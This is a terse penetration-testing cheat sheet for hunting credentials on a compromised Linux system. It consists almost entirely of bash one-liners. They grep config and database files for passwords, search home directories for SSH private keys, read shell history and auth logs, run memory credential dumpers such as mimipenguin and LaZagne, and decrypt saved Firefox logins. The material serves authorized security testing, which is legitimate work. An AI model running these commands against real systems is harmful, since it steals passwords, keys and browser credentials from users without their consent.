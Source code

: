 #linux/auth/creds-hunting

# Conf files
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```
# Databases
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

# Notes
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

# Scripts
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

# Cronjobs
```bash
cat /etc/crontab 

ls -la /etc/cron.*/
```

# SSH
```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

# History
```bash
tail -n5 /home/*/.bash*

for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

# Memory and Cache
https://github.com/huntergregal/mimipenguin
### Memory
```bash
sudo python3 mimipenguin.py
```
or
```bash
sudo bash mimipenguin.sh 
```
or
```bash
sudo python2.7 laZagne.py all
```

# Browsers
```bash
ls -l .mozilla/firefox/ | grep default 

cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```
https://github.com/unode/firefox_decrypt
```bash
python3.9 firefox_decrypt.py
```